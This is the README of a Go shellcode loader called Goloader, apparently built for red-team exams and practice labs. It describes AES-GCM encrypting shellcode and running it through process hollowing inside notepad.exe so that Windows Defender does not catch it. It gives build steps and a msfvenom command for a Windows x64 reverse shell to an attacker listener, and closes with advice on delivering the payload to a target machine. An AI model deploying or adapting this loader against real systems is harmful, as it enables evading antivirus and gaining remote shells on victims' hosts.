





# Goloader

This is a basic Windows shellcode loader I used for some Red Team and AD Pentest certification exam, this also works well against most HTB/Vulnlab labs with WinDef on. It took AES GCM encrypted shellcode and Base64 key provided by aes.py as input, the loader will use the Process Hollowing to execute the shellcode inside a notepad.exe sacrificial process. 

Below, I tested with sliver mtls beacon's shellcode, I encoded the shellcode with aes.py and saved the key later for loader. 
```
python3 aes.py ARBITRARY_STOREY.bin

[--- ENCRYPTION KEY (32-byte raw key in BASE64) ---]
4mdG4D8a9SamnWmcMc79siNE3QUwedDUzldrIjamfbg=
-------------------------------------------------------------------

[+] Encryption successful! Output is raw binary.
[+] Encrypted file saved to: ARBITRARY_STOREY.bin.enc
[+] Key file written (UTF-16LE) -> ARBITRARY_STOREY.bin.key
```




# Installation
```
go install github.com/dwgth4i/goloader@lastest
```
Or you can just clone the repo and build it yourself
```
git clone https://github.com/dwgth4i/goloader

cd goloader

go build
```
# Usage

First of all, generate the shellcode you want to load with any shellcode generator you like, it could be motar, donut, msfvenom, any C2 beacon generator ... In this example lets try a msfvenom x64 Windows reverse shell payload
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.112.128 LPORT=443 -f raw > payload.bin
```
Encrypt it with aes.py
```
python3 aes.py payload.bin
```


This encryted shellcode can then be delivered to target machine and use goloader to execute it along with the base64 key, before that remember to start the listener on the attacker machine.




